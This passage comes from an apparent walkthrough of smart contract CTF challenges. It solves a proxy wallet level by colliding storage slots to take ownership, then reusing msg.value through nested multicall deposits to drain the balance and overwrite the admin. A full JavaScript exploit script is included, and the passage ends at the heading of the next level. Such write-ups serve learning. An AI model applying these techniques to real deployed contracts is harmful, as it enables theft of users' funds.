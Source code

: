 Therefore, we can easily become the owner of the implementation contract by using the `proposeNewAdmin()` function and then whitelist ourselves for subsequent actions. Note that if we reduce the implementation contract's balance to zero, we can invoke `setMaxBalance()` and set the `maxBalance` (which, in the context of the proxy contract, equates to `admin`). And just like that, we achieve our goal.

The key question is how to drain the wallet's balance. It's important to note that the `multicall()` function restricts us from making multiple deposit calls. However, we can circumvent this by wrapping a deposit inside another multicall. Since this operation uses a `delegatecall()`, the `msg.value` pertains. This approach allows us to deposit double the amount of funds that we actually send.

```js
it("Solves 24-Puzzle", async function () {
  // ...
  // Step 1: Modify slot 0 to modify the `owner` in Wallet contract.
  await challenge.proposeNewAdmin(eoaAddress);

  // Step 2: Add eoa to whitelist.
  await eoa.sendTransaction({
    to: challengeAddress,
    data: interface.encodeFunctionData("addToWhitelist", [eoaAddress])
  });

  // Step 3: Deposit 2 times and withdraw once. Wrap one of the deposits in a multicall to bypass the deposit once check.
  // This is to fulfill the contract balance == 0 check.
  const depositCallData = interface.encodeFunctionData("deposit", []);
  const wrappedDepositCallData = interface.encodeFunctionData("multicall", [[depositCallData]]);
  const executeCallData = interface.encodeFunctionData("execute", [eoaAddress, ethers.parseEther("0.002"), "0x"]);
  const multiCallData = interface.encodeFunctionData("multicall", [[depositCallData, wrappedDepositCallData, executeCallData]]);

  await eoa.sendTransaction({
    to: challengeAddress,
    data: multiCallData,
    value: ethers.parseEther("0.001"),
  });

  // Step 4: Simply set the admin by `setMaxBalance` because they share the same slot 1.
  await eoa.sendTransaction({
    to: challengeAddress,
    data: interface.encodeFunctionData("setMaxBalance", [BigInt(eoaAddress)]),
  });

  expect(await submitLevel(await challenge.getAddress())).to.equal(true);
});

```

### 25. Motorbike

This challenge uses an [UUPS upgradable pattern](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) where the Motorbike serves as the proxy contract and Engine as the implementation contract.
